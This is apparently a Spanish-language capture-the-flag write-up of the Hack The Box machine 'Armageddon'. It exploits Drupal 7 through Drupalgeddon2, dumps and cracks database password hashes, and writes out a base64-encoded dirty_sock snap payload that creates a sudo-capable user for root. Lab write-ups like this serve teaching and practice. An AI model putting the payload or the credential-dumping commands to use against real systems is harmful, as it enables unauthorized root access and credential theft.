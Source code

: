 ```yaml
---
title: "HTB - Armagedon"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/armeggedon.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
htb:
  status: true
  os: Linux
  developer: bertolis
  level: Fácil
  date: 27 Marzo 2021
  point: 20
---
```


## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.10.233 solo encontramos que está abierto el 80 (web)

```
# Nmap 7.91 scan initiated Sun May 16 20:18:43 2021 as: nmap -p 22,80 -sSC -oN Nmap.txt
10.10.10.233
Nmap scan report for 10.10.10.233
Host is up (0.23s latency).
PORT STATE SERVICE
22/tcp open ssh
| ssh-hostkey:
|  2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|  256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_ 256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open http
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Armageddon | Armageddon
# Nmap done at Sun May 16 20:18:52 2021 -- 1 IP address (1 host up) scanned in 9.00 seconds
```

Empezamos a hacer reconocimiento de la web con whatsweb y nos damos cuenta que es un drupal, y con ayuda de robots.txt podemos ver el CHANGELOG.txt nos damos cuenta que es un drupal v. 7.58.

Con searchxploit nos damos cuenta que hay un exploit en Metasploit llamado **exploit/unix/webapp/drupal_drupalgeddon2** que nos permite obtener la 1° shell 

![Armageddon 1](/assets/images/post/2021/armeggedon.png)

## 1° Shell

<p>Revisamos la carpeta sites y de ahí se busca los datos de la conexión a la base de datos que se encuentra en /var/www/html/sites/default/settings.php y vemos que son usuario drupaluser y password CQHEy@9M*m23gBVj, el problema es que tenemos una shell muy básica por lo que nos obliga a usar el siguiente script para enumerar la BD.</p>

```
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

Para así obtener los datos de *brucetherealadmin* y obtener el hash de su clave. Con la ayuda de john the ripper y utilizando el diccionario rockyou obtenemos la clave booboo.

```
[brucetherealadmin@armageddon ~]$ john pass --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)

[brucetherealadmin@armageddon ~]$ john pass —show
?:booboo

1 password hash cracked, 0 left
```

## Shell Usuario

Con la clave obtenida podemos ingresar mediante ssh. Una vez adentro podemos leer la flag de usuario.

<p>Lo primero que debemos ver es si tenemos algun permiso de sudoer con sudo -l, y nos damos cuenta que tenemos permiso para /usr/bin/snap install *, por lo que buscamos si tenemos alguna forma de escalar privilegios.</p>

Investigando vemos que podemos crear nuestra propia aplicación snap usando el proyecto disrty_socket, lo que generará un usuario con escalada de privilegios locales.

```
[brucetherealadmin@armageddon ~]$ python -c "print
('aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAA
AAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1
daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3
Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc2
9jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHkt
c29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOi
AnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFt
ZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP
8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET
/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8
BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZ
ecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAA
AAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'+ 'A' * 4256
+ '==')" | base64 -d > racso.snap
sudo snap install racso.snap —devmode
```

## Root Shell

Con el usuario dirty_socket creado (dirty_sock:dirty_sock) utilizamos sudo su para acceder como root y obtener la flag.

```
[brucetherealadmin@armageddon ~]$ su dirty_sock
Contraseña:
[dirty_sock@armageddon brucetherealadmin]$ sudo su
[root@armageddon brucetherealadmin]#
````

![Racso](https://www.hackthebox.com/badge/image/159593)